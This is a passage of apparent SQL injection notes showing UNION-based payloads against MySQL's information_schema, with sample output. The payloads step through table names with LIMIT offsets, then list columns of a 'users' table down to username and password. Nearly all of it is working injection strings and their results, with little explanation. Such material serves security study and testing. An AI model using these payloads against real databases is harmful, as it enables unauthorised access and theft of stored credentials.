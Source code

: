 ```text
dummymalex:dummyms 
```

```text
table_schema = dummymalex
table_name  = dummyms
```

###### Hide stuff we dont need

AND table_schema != 'information_schema'

###### Injection example 2

```sql
' union (select CONCAT(table_schema,char(58),table_name) from information_Schema.tables where 1=1 AND table_schema != 'information_schema' ORDER BY table_name LIMIT 0,1) #--
```
```
LIMIT 0,1
dummymalex:dummyms 
```

```
table_schema = dummymalex
table_name   = dummyms 
```

```	
LIMIT 1,1 
dummymalex:users 	
```

```
table_schema = dummymalex
table_name   = users
```


##### column_name

SELECT column_schema,column_name FROM information_Schema.columns

###### Injection Example 1

```
' union (select CONCAT(column_name) from information_Schema.columns where table_name='dummyms' LIMIT 0,1) #--
LIMIT 0,1
	ID
LIMIT 1,1
	dummyms
LIMIT 2,1
	description
```

###### Injection Example 2

```
' union (select CONCAT(column_name) from information_Schema.columns where table_name='users' LIMIT 0,1) #--
LIMIT 0,1
	ID
LIMIT 1,1
	username
LIMIT 2,1
	password
```